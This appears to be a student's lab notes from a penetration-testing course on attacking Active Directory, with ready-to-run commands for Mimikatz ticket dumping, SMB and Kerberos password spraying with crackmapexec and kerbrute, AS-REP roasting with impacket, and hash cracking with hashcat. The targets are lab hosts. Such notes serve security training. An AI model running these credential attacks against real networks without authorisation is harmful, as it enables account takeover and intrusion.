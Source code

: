 can use mimikatz to view tickets
```
sekurlsa::tickets
```

### Password Attacks

need to gather threshold before password lockout
```
net accounts
```

can do a slow password spray to enumerate credentials

can also target SMB

We can use crackmapexec4 on Kali to perform this kind of password spraying. We'll select smb as protocol and enter the IP address of any domain joined system such as CLIENT75 (192.168.50.75). 

warning: SMB generates a lot of traffic

```
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

crackmapexec added Pwn3d! to the output, indicating that dave has administrative privileges on the target system. I

third kind of attack is based on TGT

can use kerbrute for this
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

I you receive a network error, make sure that the encoding of usernames.txt is ANSI. You can use Notepad's Save As functionality to change the encoding.

### AS-REP Roasting
By default, the AD user account option Do not require Kerberos preauthentication is disabled, meaning that Kerberos preauthentication is performed for all users. However, it is possible to enable this account option manually. I

On Kali, we can use impacket-GetNPUsers3 to perform AS-REP roasting. We'll need to enter the IP address of the domain controller as an argument for -dc-ip, the name of the output file in which the AS-REP hash will be stored in Hashcat format for -outputfile, and -request to request the TGT.

```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

The result shows that hows that dave has the user account option Do not require Kerberos preauthentication enabled, meaning it's vulnerable to AS-REP Roasting.

check AS-REP mode in hashcat
```
hashcat --help | grep -i "Kerberos"
```

```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
